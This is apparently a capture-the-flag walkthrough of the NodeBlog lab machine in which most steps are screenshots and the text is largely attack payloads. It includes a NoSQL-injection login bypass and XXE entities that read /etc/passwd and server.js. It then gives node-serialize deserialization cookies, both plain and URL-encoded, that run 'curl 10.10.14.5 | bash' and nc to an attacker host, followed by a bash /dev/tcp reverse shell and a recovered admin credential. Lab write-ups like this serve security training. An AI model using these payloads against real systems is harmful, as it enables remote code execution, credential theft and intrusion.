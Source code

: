 # nmap 
## nmap all ports
![](nmap%20%20all%20ports.png)

## nmap services and versions
![](nmap%20services%20and%20versions.png)

# domain
## main page
![](main%20page.png)

# login
## invalid username
![](login%20invalid%20username.png)

## valid username: admin
![](login%20valid%20username.png)

# burp login intercept
![](burp%20login.png)
## nosqli payload in burp --> bypass login
![](burp%20nosqli%20login%20bypass.png)

## login dashboard
![](domain%20login%20dashboard.png)

## wrong payload --> error messages --> new endpoint
##  burp request
![](burp%20request.png)

## burp response
![](burp%20response.png)
## new path:
### paths cant be accesed
````
/opt/blog/node_modules/raw-body/index.js
/opt/blog/node_modules/body-parser/lib/types/json.js
````

## common nodejs files
![](root%20path.png)

## XXE file upload
````
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
 <post>
 <title> Post</title>
 <description>desc</description>
 <markdown>&file;</markdown>
 </post>

`````

## XXE succesfull
![](XXE%20succusfull.png)

## read /opt/blog/server.js
````
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///opt/blog/server.js">
]>
 <post>
 <title> Post</title>
 <description>desc</description>
 <markdown>&file;</markdown>
 </post>

`````

## server.js file succesfull
![](succesfull%20read%20server.js.png)

## server.js snippet
![](server.js%20snippet.png)

## node-serialize vulnerability search
![](search%20for%20node-serialize.png)

![](node-serialize%20rce.png)

## node-serialize payload
![](node-serialize%20payload%20raw.png)

![](node-serialize%20IIFE%20to%20rce.png)

## final payload
````
Cookie: auth={"user":{"$ne":null},"sign":"4b7029c2a4ed7527255315fc356bf082", "hello": "_$$ND_FUNC$$_function (){require(\"child_process\").exec(\"nc 10.10.14.5 9001\", function(error, stdout, stderr) { console.log(stdout) });}()"}

Cookie: auth={"user":"admin","sign":"4b7029c2a4ed7527255315fc356bf082", "hello": "_$$ND_FUNC$$_function (){require(\"child_process\").exec(\"nc 10.10.14.5 9001\", function(error, stdout, stderr) { console.log(stdout) });}()"}

Cookie: auth={"user":{"$ne":null},"sign":"4b7029c2a4ed7527255315fc356bf082", "hello": "_$$ND_FUNC$$_function (){require(\"child_process\").exec(\"curl 10.10.14.5:5000 | bash\", function(error, stdout, stderr) { console.log(stdout) });}()"}


`````

## burp send final payload url encoded
![](burp%20succesful%20payload.png)

## cookie test payload url encoded
````
%7b%22%75%73%65%72%22%3a%7b%22%24%6e%65%22%3a%6e%75%6c%6c%7d%2c%22%73%69%67%6e%22%3a%22%34%62%37%30%32%39%63%32%61%34%65%64%37%35%32%37%32%35%35%33%31%35%66%63%33%35%36%62%66%30%38%32%22%2c%20%22%68%65%6c%6c%6f%22%3a%20%22%5f%24%24%4e%44%5f%46%55%4e%43%24%24%5f%66%75%6e%63%74%69%6f%6e%20%28%29%7b%72%65%71%75%69%72%65%28%5c%22%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%5c%22%29%2e%65%78%65%63%28%5c%22%6e%63%20%31%30%2e%31%30%2e%31%34%2e%35%20%39%30%30%31%5c%22%2c%20%66%75%6e%63%74%69%6f%6e%28%65%72%72%6f%72%2c%20%73%74%64%6f%75%74%2c%20%73%74%64%65%72%72%29%20%7b%20%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%73%74%64%6f%75%74%29%20%7d%29%3b%7d%28%29%22%7d


`````

## cookie reverse shell url encoded
````
%7b%22%75%73%65%72%22%3a%7b%22%24%6e%65%22%3a%6e%75%6c%6c%7d%2c%22%73%69%67%6e%22%3a%22%34%62%37%30%32%39%63%32%61%34%65%64%37%35%32%37%32%35%35%33%31%35%66%63%33%35%36%62%66%30%38%32%22%2c%20%22%68%65%6c%6c%6f%22%3a%20%22%5f%24%24%4e%44%5f%46%55%4e%43%24%24%5f%66%75%6e%63%74%69%6f%6e%20%28%29%7b%72%65%71%75%69%72%65%28%5c%22%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%5c%22%29%2e%65%78%65%63%28%5c%22%63%75%72%6c%20%31%30%2e%31%30%2e%31%34%2e%35%3a%35%30%30%30%20%7c%20%62%61%73%68%5c%22%2c%20%66%75%6e%63%74%69%6f%6e%28%65%72%72%6f%72%2c%20%73%74%64%6f%75%74%2c%20%73%74%64%65%72%72%29%20%7b%20%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%73%74%64%6f%75%74%29%20%7d%29%3b%7d%28%29%22%7d

`````

## succesfull shell
![](admin%20shell.png)
## payload
````
Cookie: auth=%7b%22%75%73%65%72%22%3a%7b%22%24%6e%65%22%3a%6e%75%6c%6c%7d%2c%22%73%69%67%6e%22%3a%22%34%62%37%30%32%39%63%32%61%34%65%64%37%35%32%37%32%35%35%33%31%35%66%63%33%35%36%62%66%30%38%32%22%2c%20%22%68%65%6c%6c%6f%22%3a%20%22%5f%24%24%4e%44%5f%46%55%4e%43%24%24%5f%66%75%6e%63%74%69%6f%6e%20%28%29%7b%72%65%71%75%69%72%65%28%5c%22%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%5c%22%29%2e%65%78%65%63%28%5c%22%63%75%72%6c%20%31%30%2e%31%30%2e%31%34%2e%35%3a%38%30%30%30%20%7c%20%62%61%73%68%5c%22%2c%20%66%75%6e%63%74%69%6f%6e%28%65%72%72%6f%72%2c%20%73%74%64%6f%75%74%2c%20%73%74%64%65%72%72%29%20%7b%20%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%73%74%64%6f%75%74%29%20%7d%29%3b%7d%28%29%22%7d

Cookie: auth={"user":{"$ne":null},"sign":"4b7029c2a4ed7527255315fc356bf082", "hello": "_$$ND_FUNC$$_function (){require(\"child_process\").exec(\"curl 10.10.14.5:8000 | bash\", function(error, stdout, stderr) { console.log(stdout) });}()"}





`````

## serve malicious index.html file
````
bash -i >& /dev/tcp/10.10.14.5/1111 0>&1

`````

## user.txt
![](admin%20folder%20permission%20denied.png)

## mongodb database
![](server.js%20mongodb%20path.png)
![](dump%20mongodb%20database.png)

## mongodump
![](mongodump%20result.png)

### creds
````
admin:IppsecSaysPleaseSubscribe

`````

## root shell
![](NodeBlog/screenshots/root%20shell.png)

XXXXXXXXX